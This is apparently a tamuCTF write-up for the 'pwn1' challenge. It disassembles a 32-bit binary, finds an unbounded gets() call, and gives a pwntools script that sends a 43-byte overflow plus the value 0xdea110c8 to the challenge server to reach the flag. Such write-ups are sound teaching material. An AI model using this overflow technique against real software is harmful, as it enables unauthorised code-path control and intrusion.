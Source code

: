 # tamuCTF: pwn
##### *tl;dr: buffer overflow to control function arguments*
## pwn1
#### Assumeably the easiest among the pwn challenges, I started the approach by running some simple recon with the *checksec* utility from pwntools:
```
$ checksec pwn1
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### So we know we're dealing with a 32-bit binary with the following security measures added. *Add explanation*. Running the binary, we get the prompt:
```
$ ./pwn1
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see. 
   What... is your name?
```
#### Given the prompt and disassembly from gdb, I deduced that there is a string check for these questions. So what I did was use the command line utility *strings* on the binary and I got answers for the first two questions:
```
$ strings pwn1
   [...]
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?
   Sir Lancelot of Camelot
   I don't know that! Auuuuuuuugh!
   What... is your quest?
   To seek the Holy Grail.
   What... is my secret?
   [...]
```
#### We now passed the first two questions, leaving us with only one more whose answer isn't shown up on strings or anywhere else. Fired up gdb-peda and disassembled the binary to have a deeper look into it. Disassembling the main function results into:
```
$ gdb ./pwn1
   gdb-peda$ disas main
   Dump of assembler code for function main:
      0x00000779 <+0>:	    lea    ecx,[esp+0x4]
      0x0000077d <+4>:	    and    esp,0xfffffff0
      0x00000780 <+7>:	    push   DWORD PTR [ecx-0x4]
      0x00000783 <+10>:	    push   ebp
      0x00000784 <+11>:	    mov    ebp,esp
      0x00000786 <+13>:	    push   ebx
      0x00000787 <+14>:	    push   ecx
      0x00000788 <+15>:	    sub    esp,0x40
      0x0000078b <+18>:	    call   0x600 <__x86.get_pc_thunk.bx>
      0x00000790 <+23>:	    add    ebx,0x1820
      0x00000796 <+29>:	    mov    eax,DWORD PTR [ebx+0x44]
      0x0000079c <+35>:	    mov    eax,DWORD PTR [eax]
      0x0000079e <+37>:	    push   0x0
      0x000007a0 <+39>:	    push   0x0
      0x000007a2 <+41>:	    push   0x2
      0x000007a4 <+43>:	    push   eax
      0x000007a5 <+44>:	    call   0x580 <setvbuf@plt>
      0x000007aa <+49>:	    add    esp,0x10
      0x000007ad <+52>:	    mov    DWORD PTR [ebp-0xc],0x2
      0x000007b4 <+59>:	    mov    DWORD PTR [ebp-0x10],0x0
      0x000007bb <+66>:	    sub    esp,0xc
      0x000007be <+69>:	    lea    eax,[ebx-0x1620]
      0x000007c4 <+75>:	    push   eax
      0x000007c5 <+76>:	    call   0x550 <puts@plt>
      0x000007ca <+81>:	    add    esp,0x10
      0x000007cd <+84>:	    sub    esp,0xc
      0x000007d0 <+87>:	    lea    eax,[ebx-0x15b5]
      0x000007d6 <+93>:	    push   eax
      0x000007d7 <+94>:	    call   0x550 <puts@plt>
      0x000007dc <+99>:	    add    esp,0x10
      0x000007df <+102>:	mov    eax,DWORD PTR [ebx+0x40]
      0x000007e5 <+108>:	mov    eax,DWORD PTR [eax]
      0x000007e7 <+110>:	sub    esp,0x4
      0x000007ea <+113>:	push   eax
      0x000007eb <+114>:	push   0x2b
      0x000007ed <+116>:	lea    eax,[ebp-0x3b]
      0x000007f0 <+119>:	push   eax
      0x000007f1 <+120>:	call   0x530 <fgets@plt>
      0x000007f6 <+125>:	add    esp,0x10
      0x000007f9 <+128>:	sub    esp,0x8
      0x000007fc <+131>:	lea    eax,[ebx-0x159f]
      0x00000802 <+137>:	push   eax
      0x00000803 <+138>:	lea    eax,[ebp-0x3b]
      0x00000806 <+141>:	push   eax
      0x00000807 <+142>:	call   0x510 <strcmp@plt>
      0x0000080c <+147>:	add    esp,0x10
      0x0000080f <+150>:	test   eax,eax
      0x00000811 <+152>:	je     0x82f <main+182>
      0x00000813 <+154>:	sub    esp,0xc
      0x00000816 <+157>:	lea    eax,[ebx-0x1584]
      0x0000081c <+163>:	push   eax
      0x0000081d <+164>:	call   0x550 <puts@plt>
      0x00000822 <+169>:	add    esp,0x10
      0x00000825 <+172>:	sub    esp,0xc
      0x00000828 <+175>:	push   0x0
      0x0000082a <+177>:	call   0x560 <exit@plt>
      0x0000082f <+182>:	sub    esp,0xc
      0x00000832 <+185>:	lea    eax,[ebx-0x1564]
      0x00000838 <+191>:	push   eax
      0x00000839 <+192>:	call   0x550 <puts@plt>
      0x0000083e <+197>:	add    esp,0x10
      0x00000841 <+200>:	mov    eax,DWORD PTR [ebx+0x40]
      0x00000847 <+206>:	mov    eax,DWORD PTR [eax]
      0x00000849 <+208>:	sub    esp,0x4
      0x0000084c <+211>:	push   eax
      0x0000084d <+212>:	push   0x2b
      0x0000084f <+214>:	lea    eax,[ebp-0x3b]
      0x00000852 <+217>:	push   eax
      0x00000853 <+218>:	call   0x530 <fgets@plt>
      0x00000858 <+223>:	add    esp,0x10
      0x0000085b <+226>:	sub    esp,0x8
      0x0000085e <+229>:	lea    eax,[ebx-0x154d]
      0x00000864 <+235>:	push   eax
      0x00000865 <+236>:	lea    eax,[ebp-0x3b]
      0x00000868 <+239>:	push   eax
      0x00000869 <+240>:	call   0x510 <strcmp@plt>
      0x0000086e <+245>:	add    esp,0x10
      0x00000871 <+248>:	test   eax,eax
      0x00000873 <+250>:	je     0x891 <main+280>
      0x00000875 <+252>:	sub    esp,0xc
      0x00000878 <+255>:	lea    eax,[ebx-0x1584]
      0x0000087e <+261>:	push   eax
      0x0000087f <+262>:	call   0x550 <puts@plt>
      0x00000884 <+267>:	add    esp,0x10
      0x00000887 <+270>:	sub    esp,0xc
      0x0000088a <+273>:	push   0x0
      0x0000088c <+275>:	call   0x560 <exit@plt>
      0x00000891 <+280>:	sub    esp,0xc
      0x00000894 <+283>:	lea    eax,[ebx-0x1534]
      0x0000089a <+289>:	push   eax
      0x0000089b <+290>:	call   0x550 <puts@plt>
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
      0x000008b9 <+320>:	jne    0x8c2 <main+329>
      0x000008bb <+322>:	call   0x6fd <print_flag>
      0x000008c0 <+327>:	jmp    0x8d4 <main+347>
      0x000008c2 <+329>:	sub    esp,0xc
      0x000008c5 <+332>:	lea    eax,[ebx-0x1584]
      0x000008cb <+338>:	push   eax
      0x000008cc <+339>:	call   0x550 <puts@plt>
      0x000008d1 <+344>:	add    esp,0x10
      0x000008d4 <+347>:	mov    eax,0x0
      0x000008d9 <+352>:	lea    esp,[ebp-0x8]
      0x000008dc <+355>:	pop    ecx
      0x000008dd <+356>:	pop    ebx
      0x000008de <+357>:	pop    ebp
      0x000008df <+358>:	lea    esp,[ecx-0x4]
      0x000008e2 <+361>:	ret    
   End of assembler dump.
```
#### We see that the prompts for the first two questions get user input via fgets, which is a quite secure way of getting user input. But the third question at address ```0x0000089b``` uses a gets() call for input, which is vulnerable to buffer overflow attacks. It is also important to note that the program also checks if the answer for the third question is equal to ```0xdea110c8``` before it proceeds to the ```print_flag``` function. So the exploit method for this challenge will be a buffer overflow into controlling an argument. But before we head that, we do a deeper analysis of the code block that happens before and after the gets call. 
```
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
```
#### What this does is allocates space on the stack for some variables, which is the array buffer in this case, and pushes a pointer to ```[ebp-0x3b]``` , which is the address for the array buffer, on the stack. After the gets call, a compare instruction is done at address ```[ebp-0x10]``` if the contents is in fact equal to ```0xdea110c8```. So it becomes clearer that we have to overwrite the contents of ```[ebp-0x3b]``` to ```[ebp-0x10]```, which has a difference of 43 which is the offset we need to overflow the buffer. And we proceed with the exploitation.
#### exploit.py
```python
   from pwn import *

   #: Connect to challenge server
   HOST = 'pwn.tamuctf.com'
   PORT = 4321
   conn = remote(HOST,PORT)

   #: Exploit code
   offset = 'A' * 43
   secret = p32(0xdea110c8)
   exploit = offset + secret

   #: Send data
   print(conn.recv())
   conn.sendline('Sir Lancelot of Camelot')
   print(conn.recv())
   conn.sendline('To seek the Holy Grail.')
   print(conn.recv())
   conn.sendline(exploit)
   print(conn.recv())
   print(conn.recv())
```
#### And we then get the flag! 
```
$ python exploit.py

   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?

   What... is your quest?

   What... is my secret?

   Right. Off you go.
   gigem{34sy_CC428ECD75A0D392}
```

